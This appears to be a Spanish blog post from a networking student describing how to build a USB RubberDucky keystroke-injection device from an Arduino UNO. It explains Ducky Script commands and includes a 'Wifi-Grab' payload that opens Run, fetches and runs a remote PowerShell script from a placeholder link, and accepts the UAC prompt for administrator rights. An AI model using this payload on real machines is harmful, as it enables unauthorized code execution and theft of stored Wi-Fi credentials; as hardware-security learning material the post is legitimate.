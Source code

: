 ```yaml
---
title: "COMO CREAR UN RUBBERDUCKY CON UN ARDUINO UNO"
layout: post
date: 2021-09-28 00:42
tag: Arduino UNO, RubberDucky, Hardware, Hack, Se tensó
image: 
headerImage: true
projects: true
hidden: true
description: "Como crear un rubberducky con un Arduino UNO"
category: project
author: Carlos
externalLink: false
---
```

Muy buenas todos, hace tiempo en el 2º año de SMR (Sistemas Microinformáticos y Redes) nos mandaron a toda la clase hacer un proyecto con el Arduino UNO, nos dieron la libertad de hacer cualquier cosa, hubo gente que hicieron una impresora, otros un semáforo con luces, otros un mini altavoz que emitia pitidos y yo me propuse hacer un RubberDucky con la placa Arduino UNO.
Entonces empecé a investigar y justamente [**S4vitar**](https://www.youtube.com/channel/UCNHWpNqiM8yOQcHXtsluD7Q) subió un vídeo de como convertir el arduino uno en un rubberducky, parece que los planetas se alienaron porque la verdad es que no se. 
## Tabla de contenido
* [Introducción al USB RubberDucky](#introducción-al-usb-rubberducky)
* [Lenguaje del código de un RubberDucky](#lenguaje-del-código-de-un-rubberducky)
* [Introducción al Arduino UNO](#introducción-al-arduino-uno)
* [Instalando Duckduino](#instalando-duckduino)
* [Comenzamos a reconfigurar el Arduino](#comenzamos-a-reconfigurar-el-arduino)
* [Preparando el Arduino antes de conectarlo](#preparando-el-arduino-antes-de-contectarlo)
* [Preparando el script a cargar en el Arduino](#preparando-el-script-a-cargar-en-el-arduino)
* [Subimos el código al Arduino / RubberDucky](#subimos-el-código-al-arduino-/-rubberducky)
* [Ejecutamos el paso final para escribir el firmware del teclado](#ejecutamos-el-paso-final-para-escribir-el-firmware-del-teclado)
* [Probando nuestro RubberDucky 100% funcional](#probando-nuestro-rubberducky-100-funcional)

## Introducción al USB RubberDucky
> Por rubber ducky se conoce a un dispositivo USB que contiene información "maliciosa" la cual podría infectar tu PC una vez que lo conectas a ella. Esta información podría ser un keylogger, un encriptador de información o cualquier otra herramienta para apropiarse de tu **información** o negarte el uso a ella.

<div class="usb">
    <img src="/assets/images/rubberducky1.jpg" align="right">
</div>

> <p>Al momento de conectar este USB, es reconocido con un dispositivo HID, haciéndose pasar por un teclado normal (para no levantar sospechas y evitar que sea bloqueado por antivirus o firewall) y ejecuta las teclas indicadas en su código.</p>
> <p>En definitiva, es un ataque que puede sembrar el caos en una empresa porque si alguien deja un pendrive en una mesa es casi al 100% seguro que alguien lo enchufara para ver qué es y lo que menos se puede imaginar es que este USB este enviando una reverse shell o que este desactivando programas.</p>

## Lenguaje del código de un RubberDucky
- REM --> Indica comentarios, estas lineas no ejecutan nada. 
- DELAY --> Hace una pausa, en el caso del ejemplo de 3 segundos al principio y más adelante de medio segundo para esperar a que salga la ventana de ejecutar. 
- GUI r --> Es la pulsación de la tecla WIN y la “r”, que sirve para los sistemas operativos Windows para mostrar rápidamente la ventana de ejecutar. 
- STRING --> Es la pulsación de todas las teclas de manera automática y a gran velocidad. 
- ENTER --> Pulsa la tecla enter.

{% highlight c %}
REM Wifi-Grab
DELAY 500
GUI r
REM Delays 0.2 seconds to give the Run prompt time to open.
DELAY 200
REM this command will download the text and save as d.ps1 then run
REM if the script failed to run change the ExecPolicy to Bypass
STRING powershell /w 1 /C Set-ExecutionPolicy RemoteSigned;wget "DOWNLOAD_LINK" -o \d.ps1;\d.ps1
REM Presses Ctrl + Shift + Enter to execute the PowerShell with administrative privileges.
CTRL-SHIFT ENTER
REM Delay 0.5 seconds to give the UAC prompt time to open.
DELAY 500
REM Presses Alt + Y to bypass UAC.
ALT y
{% endhighlight %}
En el caso de utilizar Arduino hay que convertir este código con alguno de los conversores [Duckduino](https://github.com/Dukweeno/Duckuino) o [Ducky2Arduino](https://github.com/kr0no/Ducky2Arduino)
